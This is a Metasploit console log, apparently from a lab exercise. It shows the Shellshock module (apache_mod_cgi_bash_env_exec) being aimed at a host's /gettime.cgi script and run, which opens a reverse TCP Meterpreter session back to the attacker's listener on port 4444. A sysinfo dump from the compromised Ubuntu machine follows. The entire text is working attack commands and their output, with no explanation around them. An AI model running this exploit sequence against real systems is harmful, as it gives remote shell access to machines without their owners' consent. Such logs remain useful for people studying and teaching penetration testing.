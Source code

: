 ```
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhosts 192.130.178.3
rhosts => 192.130.178.3
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /gettime.cgi
targeturi => /gettime.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 192.130.178.2:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (985320 bytes) to 192.130.178.3
[*] Meterpreter session 1 opened (192.130.178.2:4444 -> 192.130.178.3:53716) at 2023-07-20 13:46:47 +0530

meterpreter > sysinfo
Computer     : 192.130.178.3
OS           : Ubuntu 14.04 (Linux 5.4.0-153-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
